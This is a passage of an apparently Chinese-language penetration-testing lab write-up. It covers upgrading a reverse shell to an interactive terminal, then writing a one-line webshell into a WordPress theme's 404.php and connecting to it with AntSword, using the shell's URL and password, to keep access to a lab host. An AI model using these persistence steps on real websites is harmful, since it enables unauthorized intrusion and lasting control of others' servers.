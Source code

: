 准备重新连接shell



连接成功



升级webshell

```
Ctrl+Z
```

```
stty raw -echo
```

```
fg #返回之前的连接
```

```
ls
```

```
export SHELL=/bin/bash
```

```
export TERM=screen
```

```
stty rows 38 columns 116
```

```
reset
```

（升级成功 可Tab补全）调小字体后

在404.php中写入一句话

```
vi wp-content/themes/twentytwentyone/404.php
```

![image-20211117152444377](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117152444377.png)

保存后打开蚁剑进行配置以维持权限稳定

```
Shell:http://10.0.2.11/wordpress/wp-content/themes/twentytwentyone/404.php

pwd:aa
```

![image-20211117152943835](https://gitee.com/byesec/picture/raw/master//target/Week4//image-20211117152943835.png)

成功连接
